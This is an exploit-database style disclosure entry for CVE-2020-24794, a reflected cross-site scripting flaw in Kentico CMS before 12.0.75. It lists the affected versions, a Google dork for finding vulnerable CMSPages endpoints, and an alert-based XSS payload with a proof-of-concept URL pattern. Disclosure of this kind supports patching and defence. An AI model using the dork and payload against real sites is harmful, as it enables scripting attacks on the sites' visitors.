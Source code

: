 cve-2020-24794

Cross Site Scripting (XSS) vulnerability in Kentico before 12.0.75.

# Exploit Title: XSS-REFLECT
# Google Dork: inurl:CMSPages
# Date: 26/06/2020
# Exploit Author: Andrei Manole
# Vendor Homepage: kentico[.]com
# Version: 7,8,9,10,11,12.0.65
# Tested on: 7,8,9,10,11,12.0.65

Payload: (X("onerror="alert`xss`"))/
POC: target.com/payload

